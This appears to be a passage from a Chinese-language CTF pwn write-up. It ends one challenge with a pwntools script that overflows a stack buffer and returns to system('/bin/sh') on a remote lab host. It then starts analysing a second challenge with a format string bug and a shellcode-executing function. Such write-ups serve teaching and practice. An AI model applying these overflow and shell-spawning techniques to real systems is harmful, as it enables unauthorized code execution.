 在本题的话，`return_addr` 为 `0x8048320`，`return_addr2` 随便填写就好了，`args` 为 `/bin/sh` 所在的地址即 `0x804A024`

![](https://vip1.loli.net/2019/12/27/D2u6RXQmxK3FS9k.png)

最终栈如上图所示，代码如下

```python
#!/usr/bin/env python

from pwn import *

proc = './1eeba7bd29854274886837bead29fa75'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 56526)
else:
    p = process(proc)

system = 0x8048320
binsh = 0x804A024

p.sendlineafter(':', 'a' * 140 + p32(system) + p32(0) + p32(binsh))

p.interactive()
```

## string

> 菜鸡遇到了 Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

```
[*] '/ctf/work/adworld/string/79fce6e54bca4825bb65611b55b294a1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这题就有点不同了，除了 PIE 没开其他保护都开了，另外本题的没用的字也太多了...

通过 IDA 每个函数都看一看，不难发现在 `sub_400BB9` 函数中存在格式化字符漏洞

![](https://vip1.loli.net/2019/12/27/D2u6RXQmxK3FS9k.png)

另外在 `sub_400CA6` 函数中，直接将我们的输入运行了

![](https://vip1.loli.net/2019/12/27/8Mvn2BNAslUIPFQ.png)

但是，这里就有一个问题了，在这个函数中需要 `*a1 == a1[1]` 才会执行我们的 shellcode，那么，我们先来搞清楚这个 a1 是什么吧。

![](https://vip1.loli.net/2019/12/27/2vR13CLVUmQpuOa.png)
